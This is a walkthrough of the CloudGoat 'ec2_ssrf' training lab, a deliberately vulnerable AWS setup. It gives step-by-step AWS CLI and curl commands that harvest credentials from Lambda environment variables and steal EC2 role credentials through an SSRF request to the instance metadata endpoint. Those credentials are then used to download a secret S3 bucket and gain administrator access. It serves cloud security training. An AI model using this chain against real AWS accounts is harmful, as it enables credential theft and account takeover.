# Scenario 4 - EC2 SSRF

## What is the scenario

The scenario begins with IAM User "Solus" security credentials.

The objective is to invoke the `cg-lambda-<CloudGoat ID>` Lambda function.

More scenario details - https://github.com/RhinoSecurityLabs/cloudgoat/blob/master/scenarios/ec2_ssrf/README.md

## Setting up the scenario

        python3 cloudgoat.py create ec2_ssrf

## Walkthrough

### Exploitation Route



### Step by step instructions

In this scenario, we have IAM user "Solus" security credentials to being with.

Let's use [enumerate-iam](https://github.com/andresriancho/enumerate-iam) script to quickly verify what we can do with the IAM user "Solus" security credentials.



We can notice that the security credentials are permitted to do some "Lambda" related operations and it is worth investigating further.

Let's verify if `cg-lambda-<CloudGoat ID>`, the lambda function that we are supposed to invoke exists. 

        aws lambda list-functions \
        --query "Functions[?starts_with(FunctionName, 'cg')]" \
        --profile solus



The target lambda function exists in the AWS account and we can also notice that there are some hard-coded AWS security credentials in the environment variables of the lambda function. An attempt to invoke the lambda function directly doesn't work because user Solus doesn't have `lambda:InvokeFunction` permission.

Let's use the credentials leaked in the lambda environment variables to enumerate further. Let's add the credentials and figure out what kind of credentials are these - 

        aws configure --profile lambda-stolen

        aws sts get-caller-identity --profile lambda-stolen



The credentials belong to an IAM user "wrex".

Let's use [enumerate-iam](https://github.com/andresriancho/enumerate-iam) script to quickly verify what we can do with the IAM user "wrex" security credentials.



The IAM user "wrex" has a lot of permissions around EC2 related operations. Let's investigate further.

Let's check if there are any EC2 instances running. EC2 service is region based so in real-world engagements make sure you look for EC2 resources in all the regions. In this case, we will look in the default region `us-east-1`.

        aws ec2 describe-instances \
        --query 'Reservations[*].Instances[*].[Tags]' \
        --output text --profile lambda-stolen



There is an EC2 instance `cg-ubuntu-ec2-<CloudGoat-ID>` in the AWS account.  

Let's check the status of the EC2 instance `cg-ubuntu-ec2-<CloudGoat-ID>`.

        aws ec2 describe-instances \
        --query 'Reservations[*].Instances[*].[State]' \
        --output text --profile lambda-stolen

The EC2 instance is currently stopped because of a user shutdown.

There are multiple directions in which we can proceed from this point but let's start the instance and check if there are any services running. Security Groups attached to the EC2 instance suggests that there might be web services running on it.

        aws ec2 start-instances \
        --instance-ids i-06f71d7f613c53c93 \
        --profile lambda-stolen

We'll need the public IP address of the EC2 instance to connect to the service. 

        aws ec2 describe-instances \
        --query "Reservations[*].Instances[*].PublicIpAddress" \
        --output text \
        --profile lambda-stolen

There is a web application running on port 80 and the server responds with a stack trace. The stack trace suggests that the application is expecting an URL via query parameter.



As the application is expecting a URL as input, let's try and verify if it is vulnerable to SSRF.



The application is vulnerable to SSRF and it is on a EC2 instance. Remember that the EC2 instance has a role attached to it. Let's exploit the IMDS v1 using SSRF to steal the IAM role credentials

        curl http://54.145.204.102/\?url\=http://169.254.169.254/latest/meta-data/iam/security-credentials/

        curl -s http://54.145.204.102/\?url\=http://169.254.169.254/latest/meta-data/iam/security-credentials/cg-ec2-role-<CloudGoat-ID>





The IAM role credentials we have stolen can be used like any other IAM identity credentials. To enumerate what can be done using the role credentials, we will create a named profile using AWS CLI but notice that the IAM role credentials are short lived and have a session token. The session token has to be manually added to the profile in the file `~/.aws/credentials`

        aws configure --profile stolen-role-creds



We'll use [enumerate-iam](https://github.com/andresriancho/enumerate-iam) script to quickly verify the role permissions. 

        python enumerate-iam.py --access-key ACCESS-ID --secret-key SECRET-KEY --session-token SESSION-TOKEN



Notice that the IAM role has permission to list s3 buckets in the account. Let's use AWS CLI to list the buckets and download any data stored on the s3 buckets.

        aws s3 ls --profile stolen-role-creds
        aws s3 sync s3://cg-secret-s3-bucket-<CloudGoat-ID> ./secrets --profile stolen-role-creds





There is an S3 Bucket `cg-secret-s3-bucket-<CloudGoat-ID>` in the AWS account. The file downloaded from the bucket has AWS security credentials and the file name suggests that they could be Administrator credentials.

Let's enumerate the credentials and verify what permissions that the security credentials are entitled to.

1. Create a named profile with the credentials

        aws configure --profile stolen-admin-creds

2. Identify who the credentials belong to

        aws sts get-caller-identity --profile stolen-admin-creds


        
3. Identify the policies attached to the IAM user "shepard"

        aws iam list-attached-user-policies \
        --user-name shepard \
        --profile stolen-admin-creds

 

4. Identify the permissions of the policy attached to the IAM user "shepard"

        aws iam get-policy-version \                            
        --policy-arn <POLICY-ARN>  \
        --version-id "v1" --profile stolen-admin-creds



As the IAM user "shepard", we effectively have administrator access to the AWS account. Let's use the credentials to invoke the target lambda function.

        aws lambda invoke \
        --function-name cg-lambda-cgidsw7y5mngnv \
        ./lambda-output.txt \
        --profile stolen-admin-creds



## Destroy the scenario resources

        python3 cloudgoat.py destroy ec2_ssrf

## References

- [IAM Roles](https://docs.aws.amazon.com/IAM/latest/UserGuide/id_roles.html)
- [Instance Metadata and User Data](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html)
- [Retrieving Instance Metadata](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html)
- [Finding SSRF via HTML Injection inside a PDF file on AWS EC2](https://blog.appsecco.com/finding-ssrf-via-html-injection-inside-a-pdf-file-on-aws-ec2-214cc5ec5d90)
- [Instance Metadata API: A Modern Day Trojan Horse](https://redlock.io/blog/instance-metadata-api-a-modern-day-trojan-horse)
- [Trust No One: The Perils of Trusting User Input](https://www.nginx.com/blog/trust-no-one-perils-of-trusting-user-input/)
- [Getting started with Version 2 of AWS EC2 Instance Metadata service (IMDSv2)](https://blog.appsecco.com/getting-started-with-version-2-of-aws-ec2-instance-metadata-service-imdsv2-2ad03a1f3650)